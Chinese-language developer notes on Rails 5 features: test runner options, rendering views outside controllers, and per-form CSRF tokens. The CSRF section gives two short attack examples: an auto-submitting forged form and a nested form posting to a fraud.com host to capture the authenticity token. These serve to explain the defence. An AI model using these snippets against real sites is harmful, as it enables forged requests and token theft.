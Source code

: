 ## test runner :test

现在我们可以直接用 `rails test`来运行测试了

1. 我们可以直接指定特定行数的测试来运行 `bin/rails test test/models/user_test.rb:27`
2. 同时指定多个测试 `bin/rails test test/models/user_test.rb:27 test/models/post_test.rb:42`
3. 错误信息中会直接输出错误的测试以及行数， 以便直接通过拷贝代码来运行测试
4. 加上-f参数，能在出错的时候， 就自动停止测试 `bin/rails t -f`
5. 加上-d参数， 能在test结束后， 输出所有的错误行
6. 加上-b参数， 能够输出更详细的堆栈错误
7. 通过-n参数， 能够通过正则表达式来进行匹配 `bin/rails t -n "/create/"`
8. 通过-v参数， 能显示每个测试执行的时间
9. 默认彩色输出

## render outside controller :render

```
OrdersController.render :show, assigns: { order: Order.last }
OrdersController.render :_form, locals: { order: Order.last }

OrdersController.render json: Order.all
# => "[{"id":1, "name":"The Well-Grounded Rubyist", "author":"David A. Black"},
       {"id":2, "name":"Remote: Office not required", "author":"David & Jason"}]

OrdersController.renderer.defaults
=> {:http_host=>"example.org", :https=>false, :method=>"get", :script_name=>"", :input=>""}
```

## CSRF token :csrf

CSRF的问题：

```
<script>
 var url = "http://mysite.com/grant_access?user_id=1&project_id=123";
 document.write('<form name=hack method=post action='+url+'></form>')
</script>
<img src='' onLoad="document.hack.submit()" />
```

rails 4 issue, 如果hacker在form外面再套上一层form, 并在action中进行hack，
那么当form被提交的时候， 提交的就是最外层的form， 同时还会附带`authenticity_token`

```
<form method="post" action="http://www.fraud.com/fraud">
  <form method= "post" action="/money_transfer">
    <input type="hidden" name="authenticity_token" value="token_value">
  </form>
</form>
```

solution:

```
<form method= "post" action="/money_transfer">
  <input type="hidden" name="authenticity_token" value="money_transfer_post_action_token">
</form>
```
